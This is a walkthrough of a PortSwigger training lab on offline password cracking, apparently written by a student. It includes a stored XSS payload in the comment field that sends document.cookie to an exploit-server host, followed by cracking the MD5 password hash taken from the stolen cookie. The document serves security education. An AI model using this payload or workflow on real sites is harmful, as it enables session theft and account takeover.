

# Lab: Offline password cracking

Lab-Link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking>  
Difficulty: PRACTITIONER  
Python script: Currently no python script

## Known information

- Password hash is stored in cookie
- Website contains an XSS vulnerability in the comment functionality
- Known credentials for user `wiener:peter`
- Goals:
  - Obtain the cookie of user `carlos`
  - Offline crack the hash
  - Log in as `carlos`, access the account page and delete the account

## Steps

### Analyse cookie

The first step is to check the format of the cookie. For this, login with the known credentials for `wiener`. The cookie returned is:

`Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC`

Inspector quickly shows that it contains username and a hash in base64:


A quick check confirms that it is the password as MD5 hash:


### Find XSS vulnerability

Next we have to find the XSS vulnerability. The page allows for writing comments that have 4 possible input fields: comment, name, email and website.

The email and website fields do some basic client side validity check. I could check whether I can inject in this fields when bypassing this check, but first try in inject in the other two fields.

Injecting some basic test in the comment and name fields reveal that the comment field is injectable with this code.

```javascript
<script>alert(document.location)</script>
```


### Inject a real payload

Now we have to come up with some payload that will provide us with the cookie value when carlos looks at the page. For this, we have the exploit server where we can see the webserver logs. Lets craft a little script that loads a document from there:

```javascript
<script>
fetch('https://exploit-ac9a1f171f6ca5ce805dd394016e0032.web-security-academy.net/' + document.cookie, {
method: 'GET'
});
</script> 
```

Sure enough, the server log reveals that someone that is not me looked at the page:


Interestingly, there also is a `secret` cookie that I don't see on my own account. With Burp Decoder or the good old console we find the hash of carlos' password:


The internet has a lot of hash cracker websites, using [crackstation](https://crackstation.net/) the value of the password is quickly found:


Now simply login as carlos and delete the account



